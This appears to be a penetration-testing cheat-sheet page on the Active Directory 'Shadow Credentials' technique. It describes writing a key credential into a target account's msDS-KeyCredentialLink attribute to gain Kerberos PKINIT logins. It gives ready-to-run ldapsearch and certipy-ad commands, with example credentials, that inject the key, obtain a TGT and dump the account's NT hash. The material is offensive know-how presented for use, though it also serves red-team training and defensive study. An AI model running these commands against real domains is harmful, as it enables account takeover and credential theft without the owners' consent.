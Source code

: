 # Shadow Credentials

## <mark style="color:yellow;">**ABOUT**</mark>

<mark style="color:red;">**Shadow Credentials**</mark> is a <mark style="color:purple;">**stealthy post-exploitation persistence technique**</mark> (disclosed by _Elad Shamir_) that leverages the `msDS-KeyCredentialLink` attribute on AD objects. This attribute is used by **Windows Hello for Business** and **Azure AD Join**. When you add a **custom public key** to it, you can authenticate via **Kerberos PKINIT** using your matching private key — effectively becoming the user.

> This gives you a TGT without touching the user's password or traditional login flow.

### <mark style="color:blue;">**Requirements**</mark>

* Write access (`GenericWrite`/`GenericAll`) to target user/computer object
* **PKINIT** enabled (default in modern AD environments)
* Domain reachable over **Kerberos** (TCP/UDP 88)

### <mark style="color:blue;">**Flow**</mark>

1. Generate RSA key pair
2. Create `KeyCredential` object with public key
3. Inject the object into `msDS-KeyCredentialLink` of the target account
4. Authenticate using private key via **Kerberos PKINIT**
5. Get TGT for the target account

## <mark style="color:blue;">**LINUX**</mark>

#### **Check KeyCredential Attribute Present**

```bash
ldapsearch -H ldap://dc.militech.local -x -D 's.reed@militech.local' -w 'password123' -b 'CN=songbird,CN=Users,DC=militech,DC=local' msDS-KeyCredentialLink
```

#### **Automatic Shadow Credentials Execution**

```bash
certipy-ad shadow auto -username 's.reed@militech.local' -password 'password123' -account songbird
```

**Performs:**

* KeyCredential injection
* PKINIT auth
* TGT extraction
* NT hash dump
* Cleanup

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials#shadow-credentials" %}

{% embed url="https://github.com/ly4k/Certipy/wiki/07-%E2%80%90-Post%E2%80%90Exploitation#shadow-credentials-msds-keycredentiallink" %}

{% embed url="https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab" %}

